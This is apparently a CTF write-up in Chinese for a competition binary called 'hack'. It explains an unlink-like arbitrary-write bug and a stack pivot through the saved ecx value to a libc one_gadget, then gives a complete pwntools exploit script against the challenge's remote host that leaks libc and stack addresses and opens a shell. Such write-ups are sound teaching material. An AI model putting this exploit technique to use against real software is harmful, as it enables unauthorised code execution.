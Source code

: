 ## 高校运维赛

### hack
> 程序自身存在任意地址写漏洞，但因为是一个类似unlink的行为，所以需要两个地址都可写
![Alt text](./1542414232518.png)

> 观察main函数发现在retn之前恢复esp寄存器使用的不是leave指令而是lea esp,[ecx-4]，而ecx寄存器的值保存在栈上，可以使用提供的漏洞来改写，交换一下堆栈上的值，把栈改到堆上就能在retn的时候跳onegadget
![Alt text](./1542414239994.png)

```python
from pwn import *
#p = process("./hack",env = {"LD_PRELOAD": "./libc6-i386_2.23-0ubuntu10_amd64.so"})

p = remote("210.32.4.16", 13375)

libc = ELF("libc6-i386_2.23-0ubuntu10_amd64.so")

p.recvuntil("Besides you can have two chances to leak, input address: \n")
p.sendline("134520860")
p.recvuntil(", ")
puts = int(p.recv(10),16)
libc.address = puts - libc.sym["puts"]
environ = libc.sym["environ"]
one = libc.address + 0x3a819


print hex(puts),hex(environ)

p.sendline(str(environ))
p.recvuntil(", ")
stack = int(p.recv(10),16)
print hex(stack)

target_stack = stack - 184
p.recvuntil("The address of the node is ")
heap = p.recvuntil(",")
heap = int(heap[0:len(heap)-1],16)
print hex(heap)
#gdb.attach(p)
#raw_input()
p.send(p32(one)*2 + p32(heap+4) + p32(target_stack - 8))
p.interactive()
```
